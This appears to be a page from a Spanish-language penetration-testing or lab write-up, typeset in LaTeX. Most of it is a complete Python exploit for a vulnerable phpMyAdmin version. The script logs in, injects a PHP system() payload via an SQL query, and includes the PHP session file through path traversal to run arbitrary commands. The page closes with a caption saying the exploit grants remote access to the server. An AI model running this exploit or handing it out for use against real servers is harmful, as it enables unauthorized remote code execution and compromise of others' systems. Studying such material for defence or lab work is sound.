 \documentclass[a4paper]{article} %
\begin{document}
  \begin{lstlisting}[language=Python, caption=Exploit para la versión vulnerable de \textbf{PhpMyAdmin}.]
#!/usr/bin/env python

import re, requests, sys, html

def get_token(content):
  s = re.search('token"\s*value="(.*?)"', content)
  token = html.unescape(s.group(1))
  return token

ipaddr = sys.argv[1]
port = sys.argv[2]
path = sys.argv[3]
username = sys.argv[4]
password = sys.argv[5]
command = sys.argv[6]

url = "http://{}:{}{}".format(ipaddr,port,path)

url1 = url + "/index.php"
r = requests.get(url1)
content = r.content.decode('utf-8')

s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
version = s.group(1)

cookies = r.cookies
token = get_token(content)

p = {'token': token, 'pma_username': username, 'pma_password': password}
r = requests.post(url1, cookies = cookies, data = p)
content = r.content.decode('utf-8')
s = re.search('logged_in:(\w+),', content)
logged_in = s.group(1)

cookies = r.cookies
token = get_token(content)

url2 = url + "/import.php"

payload = '''select '<?php system("{}") ?>';'''.format(command)
p = {'table':'', 'token': token, 'sql_query': payload }
r = requests.post(url2, cookies = cookies, data = p)

session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)

content = r.content.decode('utf-8', errors="replace")
s = re.search("select '(.*?)\n'", content, re.DOTALL)
if s != None:
  print(s.group(1))

  \end{lstlisting}

  \clearpage

    Haciendo uso de este exploit, especificando la información necesaria del servidor, se ejecuta un comando de manera remota, logrando así el acceso a este:

  \vspace{0.2cm}

  \begin{figure}[h]
    \centering
    \setlength{\fboxrule}{0.8pt}
    \caption{Ganando acceso al servidor a través de la explotación de un \textbf{RCE}.}
  \end{figure}
\end{document}
